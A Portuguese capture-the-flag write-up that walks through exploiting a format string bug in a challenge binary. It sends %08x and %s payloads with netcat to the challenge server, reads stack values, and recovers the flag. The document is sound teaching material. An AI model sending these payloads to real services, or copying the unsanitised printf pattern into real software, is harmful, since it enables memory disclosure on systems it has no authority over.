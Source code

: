 # **Exploração de Vulnerabilidade de Format String – Passo a Passo**

**Autor**: Hakal  
**Desafio**: PWN - Exploração de Binário Vulnerável  
**Nível**: Intermediário  

---

## **1. Introdução**

Neste write-up, documentaremos a exploração de uma vulnerabilidade de **format string** presente em um binário, fornecido pelo Chapéu de Palha Hacker Club. O objetivo desta exploração foi extrair uma flag diretamente da memória do programa utilizando técnicas de ataques de format string. A exploração foi realizada de forma sistemática, avançando passo a passo pela memória do programa até encontrar a string desejada.

---

## **2. Análise do Código Vulnerável**

O binário em questão apresentava uma falha clássica de segurança em que o usuário pode inserir uma string de formato diretamente na função `printf` sem sanitização. Isso permite que o usuário injete especificadores de formato para manipular a saída e acessar valores armazenados na pilha.

O código vulnerável é o seguinte:

```c
fgets(msg, 300, stdin);   // Lê até 300 caracteres do stdin e armazena em msg
printf(msg);              // Imprime msg diretamente, sem especificador de formato
```

Ao permitir que o usuário controle o argumento da função `printf`, o programa torna-se suscetível a ataques que podem acessar ou modificar dados na memória.

---

## **3. Exploração da Pilha com Format String**

O objetivo desta exploração é **ler valores da pilha** e, eventualmente, encontrar a flag armazenada na memória.

### **Passo 1: Verificando os valores na pilha com %x**

O primeiro passo foi explorar a pilha utilizando o especificador `%08x`, que lê valores de 4 bytes da pilha e os exibe em formato hexadecimal. Com isso, conseguimos inspecionar valores na memória.

Executamos o seguinte comando:

```bash
echo -e '%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x' | nc suspicious-strings.chapeudepalhahacker.club 62345
```

**Saída:**

```
ae78a4d1.fbad2088.51875b2f.ae78a500.00000000.35ebe238.00c00000.00010000
```

![Exploração da Pilha com Format String](1.png)


---

### **Passo 2: Acessando strings na memória com %s**

Depois de ler os valores da pilha, a próxima etapa foi tentar acessar uma **string** que poderia estar armazenada na memória. Para isso, utilizamos o especificador `%s`, que tenta interpretar um valor na pilha como um ponteiro para uma string.

Utilizamos o seguinte comando:

```bash
echo -e '%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%s' | nc suspicious-strings.chapeudepalhahacker.club 62345
```

**Saída:**

```
ae78a4d1.fbad2088.51875b2f.ae78a500.00000000.35ebe238.00c00000.00010000.ae7892a0.flag{f0rm4t_str1ng_1s_4w3s0m3}
```

**Análise:**

- Os primeiros valores (`ae78a4d1`, `fbad2088`, etc.) são dados que continuam sendo lidos da pilha.
- O valor mais importante é o último: `ae7892a0`. Esse valor representa um **ponteiro** que aponta para uma string armazenada na memória.
- O especificador `%s` utilizou esse ponteiro para acessar e exibir o conteúdo da memória. A string recuperada foi a **flag**: `flag{f0rm4t_str1ng_1s_4w3s0m3}`.

![Acessando strings na memória com %s](2.png)

---

## **4. Interpretação dos Valores da Pilha**

### **Detalhamento dos valores lidos:**

| Posição na pilha | Valor Lido       | Interpretação                        |
|------------------|------------------|--------------------------------------|
| [Posição 0]      | ae78a4d1         | Endereço ou valor temporário na pilha         |
| [Posição 1]      | fbad2088         | Possivelmente parte de uma estrutura de controle de I/O (como `FILE`) |
| [Posição 2]      | 51875b2f         | Outro valor temporário ou ponteiro |
| [Posição 3]      | ae78a500         | Valor armazenado na pilha, provavelmente um ponteiro ou variável local |
| [Posição 4]      | 00000000         | Valor nulo, frequentemente usado como delimitador ou ponteiro nulo |
| [Posição 5]      | 35ebe238         | Outro endereço temporário armazenado na pilha |
| [Posição 6]      | 00c00000         | Possivelmente um valor relacionado à alocação de memória |
| [Posição 7]      | 00010000         | Valor constante utilizado pelo programa |
| [Posição 8]      | ae7892a0         | **Ponteiro para a string da flag** armazenada na memória |
| [Posição 9]      | flag{f0rm4t_str1ng_1s_4w3s0m3} | **Flag recuperada utilizando %s** |

### **Resumo**:

- O uso de `%08x` nos permitiu "andar" pela pilha e ler valores armazenados no stack frame do programa.
- Ao utilizar `%s`, conseguimos acessar um endereço que apontava para a **flag**, armazenada na memória do programa. Esse endereço foi encontrado na posição 8 da pilha.

![Interpretação dos Valores da Pilha](3.png)

---

## **5. Conclusão – Passo a Passo para Exploração**

Aqui está o processo passo a passo que foi seguido para explorar a vulnerabilidade de **format string** e extrair a flag:

### **Passo 1: Identificação da vulnerabilidade**

O código vulnerável permitia a execução de ataques de format string, permitindo que o atacante inserisse especificadores de formato não sanitizados.

### **Passo 2: Inspeção da pilha**

Com o uso do especificador `%08x`, foi possível ler valores da pilha e identificar variáveis e ponteiros temporários.

### **Passo 3: Extração da flag com %s**

Após navegar pela pilha, utilizamos o especificador `%s` para ler uma string armazenada na memória, que acabou sendo a flag do desafio.
